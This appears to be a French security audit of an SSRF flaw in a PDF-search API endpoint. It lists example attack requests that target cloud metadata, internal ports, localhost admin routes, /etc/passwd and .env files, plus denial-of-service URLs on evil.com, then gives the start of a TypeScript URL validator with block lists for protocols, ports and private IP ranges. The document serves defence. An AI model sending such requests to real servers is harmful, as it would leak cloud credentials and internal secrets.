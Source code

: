 ```bash
# Accès aux métadonnées AWS/GCP
GET /api/find-in-pdf?url=http://169.254.169.254/latest/meta-data/&q=test

# Scan du réseau interne
GET /api/find-in-pdf?url=http://10.0.0.1:5432/&q=test

# Accès aux services locaux
GET /api/find-in-pdf?url=http://localhost:3000/api/admin/sensitive&q=test
```

#### 2. **DoS - Épuisement des Ressources**

```bash
# Fichier de 1GB causant OOM
GET /api/find-in-pdf?url=https://evil.com/huge-file.pdf&q=test

# URL avec redirection infinie
GET /api/find-in-pdf?url=https://evil.com/infinite-redirect&q=test

# Service lent (slowloris)
GET /api/find-in-pdf?url=https://evil.com/slow-response&q=test
```

#### 3. **Data Exfiltration**

```bash
# Lecture de fichiers internes via file://
GET /api/find-in-pdf?url=file:///etc/passwd&q=root

# Accès aux variables d'environnement (si mal configuré)
GET /api/find-in-pdf?url=http://localhost:3000/.env&q=DATABASE
```

### Impact Potentiel

- **🔴 Compromission Infrastructure**: Accès aux métadonnées cloud (AWS, GCP, Azure)
- **🔴 Fuite de Données**: Extraction de configurations, secrets, données internes
- **🟠 Déni de Service**: Crash serveur par épuisement mémoire/CPU
- **🟠 Pivot Réseau**: Utilisation du serveur comme proxy pour attaquer d'autres services
- **🟡 Reconnaissance**: Mapping du réseau interne et des services

## 🛠️ Solution Proposée - Implémentation Complète

### Étape 1: Créer un Module de Validation Sécurisé

**Nouveau fichier**: `/lib/security/pdf-url-validator.ts`

```typescript
import { URL } from 'url'

// Configuration stricte des domaines autorisés
const ALLOWED_HOSTS = process.env.PDF_ALLOWED_HOSTS?.split(',') || [
  'res.cloudinary.com',
  'athanor-cdn.cloudinary.com',
]

const BLOCKED_PROTOCOLS = ['file:', 'ftp:', 'gopher:', 'telnet:', 'dict:']
const BLOCKED_PORTS = [22, 23, 25, 110, 143, 3306, 5432, 6379, 27017]
const PRIVATE_IP_RANGES = [
  /^127\./, // Loopback
  /^10\./, // Private Class A
  /^172\.(1[6-9]|2\d|3[01])\./, // Private Class B
  /^192\.168\./, // Private Class C
  /^169\.254\./, // Link-local
  /^::1$/, // IPv6 loopback
```